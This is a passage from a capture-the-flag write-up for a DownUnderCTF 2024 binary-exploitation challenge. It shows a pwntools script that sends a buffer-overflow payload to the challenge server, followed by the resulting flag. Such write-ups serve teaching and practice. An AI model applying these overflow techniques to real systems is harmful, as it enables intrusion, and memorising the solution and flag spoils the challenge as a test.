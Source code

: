 ![20-5](./20-5.png)

Since, we already know the size of the buffer, we move on to finding the memory address of the buffer , which is `0x4051e0` . Well the, now comes the most important part, scripting the exploit and sending it to the server. 

This is done through `Pwntools`. It’s so useful so many things. Check it out at.

[Pwntools](https://github.com/Gallopsled/pwntools)

```bash
from pwn import *

# p = process('./vector_overflow')
p = remote('2024.ductf.dev', 30013)
p.sendline(b'DUCTF' + b'A' * 11 + p64(0x4051e0) + p64(0x4051e5))
p.interactive()
```

Flag: `DUCTF{y0u_pwn3d_th4t_vect0r!!}`

This is how I felt after the challenge.

![p4](./22.png)

## References

[Checksec](https://medium.com/@slimm609/checksec-d4131dff0fca)

[High level explanation on some binary executable security](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)

[DownUnderCTF 2024 Write-Up · Ouuan's blog](https://ouuan.moe/post/2024/07/ductf-2024#yawa-184-solves)

[Identify security properties on Linux using checksec](https://opensource.com/article/21/6/linux-checksec)

[GDB Command Reference - Index page](https://visualgdb.com/gdbreference/commands/)

![Continue](./continue.jpg)
